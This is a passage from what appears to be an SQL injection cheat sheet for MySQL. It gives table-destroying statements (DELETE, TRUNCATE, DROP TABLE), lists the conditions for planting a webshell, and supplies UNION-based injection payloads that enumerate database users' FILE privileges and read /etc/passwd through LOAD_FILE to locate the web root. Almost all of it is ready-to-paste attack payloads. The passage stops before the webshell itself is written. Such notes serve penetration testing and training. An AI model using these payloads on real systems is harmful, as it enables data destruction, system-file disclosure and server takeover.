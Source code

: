 ```sql
DELETE FROM <database_name>.<table_name>
```

Empty the table with the TRUNCATE Statement

```sql
TRUNCATE TABLE <database_name>.<table_name>;
```

```sql
DROP TABLE <database_name>.<table_name>;
```

## 2.2 - Webshell

### 2.2.1 - Conditions

These are the required conditions to leverage this vulnerability.

1. The DB user must have **FILE** and **SELECT** privileges.
2. Find the web root directory using the enumeration methods.
3. The web root directory must have write permissions.

### 2.2.2 - Enumerate Database User Privileges

```sql
' UNION SELECT NULL, GROUP_CONCAT(user, '->', File_priv) FROM mysql.user#

' UNION SELECT NULL, GROUP_CONCAT(user, '->', File_priv) FROM mysql.user WHERE File_priv='Y'#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES WHERE PRIVILEGE_TYPE LIKE 'FILE'#
```

### 2.2.3 - Web Root Enumeration

Note: This step is necessary to find a destination to write a webshell.

#### 2.2.3.1 - Linux

- Using SQL Query statements will disclose the PHP warning messages to find the absolute path of the web root directory.

```sql
' UNION SELECT 1, LOAD_FILE('/etc/passwd')#

' UNION SELECT LOAD_FILE('/etc/passwd'), 1#

' UNION SELECT LOAD_FILE('/etc/passwd'), NULL#

' UNION SELECT NULL, LOAD_FILE('/etc/passwd')#
```
